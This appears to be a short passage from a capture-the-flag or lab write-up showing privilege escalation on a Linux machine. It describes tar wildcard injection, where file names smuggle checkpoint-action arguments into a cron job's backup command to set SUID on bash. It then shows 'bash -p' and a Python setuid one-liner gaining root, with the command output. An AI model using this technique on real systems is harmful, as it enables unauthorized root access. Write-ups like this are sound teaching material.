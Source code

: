 > When the script runs, the tar command will be `tar czf /tmp/backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh x *`, which will execute the script I created to give `bash` SUID bits

```bash
james@ubuntu-xenial:~$ bash -p
bash-4.3# id
uid=1002(james) gid=1002(james) euid=0(root) egid=0(root) groups=0(root),1002(james)
bash-4.3# $(which python2 python python3 2>/dev/null | head -n1) -c 'import os;os.setuid(0);os.system("/bin/bash -p")'
bash-4.3# id
uid=0(root) gid=1002(james) egid=0(root) groups=0(root),1002(james)
```

# Post Exploitation


## System Proof Screenshot

![](/assets/obsidian/107972952be16c1fcc587b6d7edc49ed.png)

# Appendix

